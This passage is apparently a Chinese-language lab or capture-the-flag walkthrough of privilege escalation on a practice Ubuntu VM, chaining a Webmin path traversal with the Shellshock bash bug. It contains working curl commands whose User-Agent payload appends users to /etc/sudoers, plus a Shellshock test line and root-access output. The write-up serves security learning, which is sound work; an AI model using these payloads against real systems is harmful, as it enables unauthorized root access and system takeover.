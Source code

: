     root@ubuntuvm:~# uname -a
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
    root@ubuntuvm:~# sudo -l
    User root may run the following commands on this host:
        (ALL) ALL
    root@ubuntuvm:~# 
    
    ```



### 使用shellshock漏洞进行提权（bash版本小于4.3）

```shell
# 如果下面的语句正确的输出了"hello" 则证明漏洞存在
env x='() { :; }; echo "hello"' bash -c date
```

-   查看之前下载的`2017.pl`文件发现组合方式为：`信息头+目标地址+端口号+/unauthenticated/+40个/..%01+需要读取的文件名`

-   ![image-20230526193851444](https://raw.githubusercontent.com/r0o983/images/main/image-20230526193851444.png)

-   使用curl发送主机头到靶机

-   ```shell
    └─$ curl "192.168.2.138:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/obama/shell.cgi" -A '() { :; }; /bin/echo "obama ALL=(ALL) NOPASSWORD:ALL" >> /etc/sudoers '
    <h1>Error - Missing Content-Type Header</h1>
    <pre>Failed to exec /usr/local/webmin/mscstyle3/unauthenticated/../../../../../../../../../../../../../../../../../../../../home/obama/shell.cgi : Permission denied
    </pre>
    
    参数说明：
    	`() { :; };` 固定写法  
    	/bin/echo 使用输出语句将obama用户写入到sudoer文件中，使其拥有root权限
    ```

-   由于不知道当前用户密码，所以切换到vmware用户进行提权演示

-   创建一个.cgi的文件，写入任意内容，并给定权限

-   ```shell
    └─$ curl "192.168.2.138:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/webshell.cgi" -A '() { :; }; /bin/echo "vmware ALL=(ALL) ALL" >> /etc/sudoers '
    <h1>Error - Missing Content-Type Header</h1>
    
    ```

-   回到靶机，检查用户是否具有root权限

-   ```shell
    vmware@ubuntuvm:~$ sudo -l
    User vmware may run the following commands on this host:
        (ALL) ALL
    vmware@ubuntuvm:~$ ip a
    1: lo: <LOOPBACK,UP,10000> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,10000> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:5e:18:c9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.138/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:fe5e:18c9/64 scope link 
           valid_lft forever preferred_lft forever
    vmware@ubuntuvm:~$ whoami
    vmware